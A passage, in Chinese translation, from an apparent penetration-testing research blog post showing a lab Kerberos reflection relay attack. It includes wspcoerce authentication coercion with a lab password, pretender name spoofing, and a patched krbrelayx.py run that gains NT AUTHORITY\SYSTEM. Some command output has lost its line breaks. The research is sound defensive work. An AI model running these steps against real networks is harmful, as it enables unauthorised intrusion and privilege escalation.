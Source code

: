 - **绕过 NTLM 优先级：**  
 由于上述技巧，Windows 似乎认为它正在连接到自身，在这种情况下，NTLM 实际上 优先于 Kerberos。因此，我们需要修改 krbrelayx 以声明它完全不具备 NTLM 功能，从而强制使用 Kerberos 身份验证。你可以在我们的 论文 中找到差异。  
  
### 眼见为实！  
  
最终，我们得到了一个可以中继回主机的合适票据。让我们看看实际效果：  
  
第一步是身份验证强制。在这个例子中，我们使用我们全新的工具 wspcoerce 针对 client1  
，但你应该看看 我们之前的博文，了解其他技术 ：  
```
$ wspcoerce 'lab.redteam/user1:KojbyRyibdinWom)@client1.lab.redteam' \    file:////client11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA/pathImpacket v0.13.0.dev0+20250408.175013.349160df - Copyright 2023 Fortra[*] Connected to IPC$[*] Opened MsFteWds pipe[*] Sent WSP Connect[*] Sent WSP Query[*] Sent WSP Disconnect
```  
  
请注意，目标除了 Base64 编码的 CREDENTIAL_TARGET_INFORMATIONW  
 之外，还包括主机名 client1  
。 这会导致 client1  
 请求一个它自己的服务票据，并将其发送到整个主机名所在的位置 解析为。你可以阅读更多关于这个巧妙的技术 这里 。 无论如何，我们必须确保整个令人厌恶的主机名 解析到我们的攻击系统。我们可以通过在 Active Directory 集成 DNS 上注册它，或者简单地使用 pretender 来回答本地名称解析查询（ 查看我们的博客文章，了解更多关于 pretender 的信息 ）：  
```
$ sudo pretender -i eth1 --no-dhcp-dns --no-timestamps \    --spoof '*1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA*'Pretender by RedTeam Pentesting v1.3.2-74e629fcc5Listening on interface: eth1IPv4 relayed to: 192.168.56.11IPv6 relayed to: fe80::a00:27ff:fe89:bdacAnswering queries for: *1uwhrcaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaybaaaa*[mDNS] listening via UDP on [ff02::fb%eth1]:5353[NetBIOS] listening via UDP on 192.168.56.255:137[LLMNR] listening via UDP on [ff02::1:3%eth1]:5355[mDNS] listening via UDP on 224.0.0.251:5353[LLMNR] listening via UDP on 224.0.0.252:5355[...][mDNS] "client11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA" (A) queried by 192.168.56.10 (client1.lab.redteam)[mDNS] "client11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA" (A) queried by fe80::6698:d1c7:60cb:8eb9 (client1.lab.redteam, 192.168.56.10)[mDNS] "client11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA" (AAAA) queried by 192.168.56.10 (PCSSystemtec)[mDNS] "client11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA" (AAAA) queried by fe80::6698:d1c7:60cb:8eb9 (client1.lab.redteam, 192.168.56.10)[LLMNR] "client11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA" (A) queried by fe80::6698:d1c7:60cb:8eb9 (client1.lab.redteam, 192.168.56.10)[LLMNR] "client11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA" (A) queried by 192.168.56.10 (client1.lab.redteam)[LLMNR] "client11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA" (AAAA) queried by fe80::6698:d1c7:60cb:8eb9 (client1.lab.redteam, 192.168.56.10)[LLMNR] "client11UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA" (AAAA) queried by 192.168.56.10 (client1.lab.redteam)
```  
  
最后，我们可以将票据中继回 client1  
，并使用已修补版本的代码以 NT AUTHORITY\SYSTEM  
 的身份执行代码 krbrelayx.py（你可以在我们的 论文 中找到小的差异）：  
```
$ krbrelayx.py --target smb://client1.lab.redteam -c whoami[...][*] SMBD: Received connection from 192.168.56.10[*] Service RemoteRegistry is in stopped state[*] Service RemoteRegistry is disabled, enabling it[*] Starting service RemoteRegistry[*] Executed specified command on host: client1.lab.redteamnt authority\system[*] Stopping service RemoteRegistry[*] Restoring the disabled state for service RemoteRegistry
```  
### 但为什么？  
  
不幸的是，我们不太清楚为什么这随后会导致权限提升，但我们有一些理论。然而，请注意，我们实际上并没有逆向工程或调试任何东西来确保这些理论是正确的。  
  